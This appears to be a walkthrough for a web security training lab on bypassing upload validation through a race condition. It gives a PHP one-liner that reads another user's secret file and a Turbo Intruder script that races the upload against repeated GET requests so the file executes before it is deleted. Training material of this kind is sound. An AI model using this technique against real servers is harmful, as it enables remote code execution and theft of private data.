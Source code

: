 ## Solution steps

- Open Burp Suite and set-up proxy.
- Keep the intercept off.
- Log in using the given credentials and upload an image as your avatar, then go back to your account page.
- In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images.
- If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
- Right-click on the POST /my-account/avatar request that was used to submit the file upload and select Extensions > Turbo Intruder > Send to turbo intruder. The Turbo Intruder window opens.
- Copy and paste the following script template into Turbo Intruder's Python editor:
```python
  def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
- In the script, replace <YOUR-POST-REQUEST> with the entire POST /my-account/avatar request containing your exploit.php file.
- Replace <YOUR-GET-REQUEST> with a GET request for fetching your uploaded PHP file. The simplest way to do this is to copy the GET /files/avatars/<YOUR-IMAGE> request from your proxy history, then change the filename in the path to exploit.php.
- At the bottom of the Turbo Intruder window, click Attack. This script will submit a single POST request to upload your exploit.php file, instantly followed by 5 GET requests to /files/avatars/exploit.php.
- In the results list, notice that some of the GET requests received a 200 response containing Carlos's secret. These requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted.
- Submit the secret to solve the lab.

